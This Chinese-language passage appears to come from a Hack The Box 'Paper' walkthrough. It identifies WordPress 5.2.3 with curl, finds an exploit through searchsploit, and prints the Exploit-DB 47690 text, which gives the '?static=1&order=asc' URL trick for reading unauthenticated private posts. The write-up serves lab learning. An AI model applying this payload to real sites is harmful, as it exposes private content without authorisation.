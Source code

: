 [这个](https://smartwp.com/check-wordpress-version/)向您展示了要获得版本号还需要做些什么:

```
┌──(root💀kali)-[~/htb/paper]
└─# curl -s http://office.paper | grep "generator"
<meta name="generator" content="WordPress 5.2.3" />
```

# Searchsploit

现在使用 searchsploit 查找漏洞:

![](img/516984154087a5b581759f843c56da9c.png)

搜索 WordPress 的 loit 检查

第二个是我们要找的:

```
┌──(root💀kali)-[~/htb/paper]
└─# searchsploit -m multiple/webapps/47690.md
  Exploit: WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts
      URL: https://www.exploit-db.com/exploits/47690
     Path: /usr/share/exploitdb/exploits/multiple/webapps/47690.md
File Type: ASCII text
Copied to: /root/htb/paper/47690.md

┌──(root💀kali)-[~/htb/paper]
└─# cat 47690.md                      
So far we know that adding `?static=1` to a wordpress URL should leak its secret content
Here are a few ways to manipulate the returned entries:
- `order` with `asc` or `desc`
- `orderby`
- `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format
In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content:
```

# html 2 文本
